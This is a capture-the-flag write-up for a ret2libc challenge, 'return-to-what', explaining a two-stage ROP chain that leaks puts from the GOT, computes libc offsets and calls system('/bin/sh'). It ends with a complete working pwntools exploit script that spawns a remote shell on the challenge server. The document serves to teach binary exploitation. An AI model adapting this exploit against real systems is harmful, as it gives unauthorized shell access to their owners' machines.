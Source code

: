 This is a ret2libc challenge. It requires the players to know how ROP works (loads of guides out there for it so I won't explain it).

The idea here is for you to construct an initial ROP chain that leaks a libc address. In my exploit's case, I leaked the address of `puts` by performing a ROP chain with the following instructions: `pop rdi` -> `puts@GOT addr` -> `puts@PLT addr` -> `main addr`. This will cause the address of `puts@GOT` (which will contain the libc address for `puts`) to be popped into `rdi`, after which the subsequent `puts` call (from the `puts@PLT addr`) will print this libc address out.

After this is done, execution jumps back to main. The script parses the leak (use https://libc.blukat.me to find offsets), finds the address of `system@LIBC` and the address of the `/bin/sh` string which exists in all libcs. After that, the ROP chain does something similar, except it calls `system("/bin/sh")` instead (the rop chain should be self explanatory if you understand how the original one works).

The only thing to explain then is that seemingly useless `ret` instruction at the beginning of the ROP chain. The reason you need that is to align the stack to 16 bytes. This is a requirement when calling `system` (and some other libc functions, but in this case just `system`). For more information, [check out the Common Pitfalls section in the ROP Emporium beginner's guide](https://ropemporium.com/guide.html).

Final exploit:

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("../publish/return-to-what")

p = remote("chal.duc.tf", 30003)
#p = process("../publish/return-to-what")

main = elf.sym['main']
puts = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x000000000040122b
ret = 0x0000000000401016

payload = b"A"*56 + p64(pop_rdi) + p64(puts_got) + p64(puts) + p64(main)

p.recv()
p.sendline(payload)

leak = u64(p.recvline().strip().ljust(8, b'\x00'))
libc_base = leak - 0x0809c0
system = libc_base + 0x04f440
bin_sh = libc_base + 0x1b3e9a

log.info("puts@LIBC: " + hex(leak))
log.info("Libc base: " + hex(libc_base))
log.info("system@LIBC: " + hex(system))
log.info("/bin/sh: " + hex(bin_sh))

payload = b"A"*56 + p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)

p.recv()
p.sendline(payload)

p.interactive()
```
